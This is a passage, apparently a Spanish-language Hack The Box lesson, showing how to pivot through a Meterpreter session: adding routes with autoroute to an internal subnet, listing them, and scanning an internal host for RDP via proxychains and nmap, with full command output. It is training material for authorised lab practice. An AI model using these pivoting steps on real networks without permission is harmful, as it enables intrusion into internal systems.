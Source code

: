 También es posible agregar rutas con AutoRoute ejecutando Autoroute desde la sesión de Meterpreter.

Túnel de meterpreter y reenvío de puertos

```
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes

```

Después de agregar las rutas necesarias, podemos usar el`-p`Opción para enumerar las rutas activas para asegurarse de que nuestra configuración se aplique como se esperaba.

### **Listado de rutas activas con AutoRoute**

Túnel de meterpreter y reenvío de puertos

```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1

```

Como puede ver en la salida anterior, la ruta se ha agregado a la red 172.16.5.0/23. Ahora podremos usar proxychains para enrutar nuestro tráfico NMAP a través de nuestra sesión de meterpreter.

### **Prueba de proxy y funcionalidad de enrutamiento**

Túnel de meterpreter y reenvío de puertos

```
xnoxos@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -PnProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

```